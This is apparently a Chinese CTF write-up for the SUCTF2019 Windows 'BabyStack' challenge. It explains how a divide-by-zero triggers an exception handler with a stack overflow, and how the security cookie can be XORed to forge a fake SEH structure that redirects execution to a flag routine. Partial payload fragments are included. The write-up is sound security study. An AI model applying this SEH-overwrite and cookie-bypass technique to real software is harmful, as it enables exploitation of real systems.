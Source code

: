 ```yaml
---
layout: post
title:  "SUCTF2019 Windows BabyStack"
categories: ctf Windows pwn
tags: pwn Windows
author: ble55ing
---
```


* content
{:toc}
## SUCTF2019 Windows BabyStack

明明是safeSEH的题目，竟然叫BabyStack，栈溢出都没啥用。。

### 题目分析

主函数有栈溢出，但是是exit的所以不能控制ret。

程序本身是32位程序，很大，分析起来很困难。

### 漏洞分析

#### 除零错误

主函数中有一处问题代码，在0x408552处，F5不会显示，这个代码会将输入减去此时栈顶数据然后用栈顶数除以这个差，所以会存在除0错误

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20190823234039.png)

然后会触发异常处理函数

#### 异常处理函数

异常处理函数在0x407f60，触发除零错误会调用。

在x407f81处，函数一开始设置了___security_cookie，将一个全局变量异或ebp-8放入ebp-8，再异或ebp放入ebp-0x1c作为canery。

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20190823234123.png)

异常处理函数中，当输入为非yes也非no的值的时候，会触发能够在栈上写数据的函数，存在栈溢出。

异常处理函数中有打印flag的语句，但是需要1+1=3，而这两个数都是写死的，也溢出不到。

### 漏洞利用

除0错误只要输入与减去的值相同的值就可以了。

异常处理函数中能够获取任意地址数据，和栈溢出。

考虑在栈上布置一个SEH结构体，然后在任意地址读的时候读一个错误地址，触发异常执行get flag的语句。

构造方式为：从ebp-0x1c开始为：

### SEH利用

```
payload += p32(cookie1)
payload += p32(getflag)
payload += "C"*0x4
payload += p32(next_SEH)
payload += p32(this_SEH_ptr)
payload += p32((buffer_start + 8)^security_cookie)
```

其中，nextSEH和this_SEH_ptr的值不要动，cookie1和fake_struct_addr在本题中都是异或的全局变量，同样也要异或。注意最后程序会走到这个getfalg的位置getflag，而不是SEH里的。。？不知道为什么。

### SEH结构体构造

关于fake_struct的构造：

```
payload = ""
payload += p32(0xFFFFFFE4)
payload += p32(0)
payload += p32(0xFFFFFF0C)
payload += p32(0)
payload += p32(0xFFFFFFFE)
payload += p32(mov_eax1_ret)
payload += p32(getflag)
```

（这个构造好像毫无用处啊。。）把最后俩值改成“CCCCCCCC”也没事。。


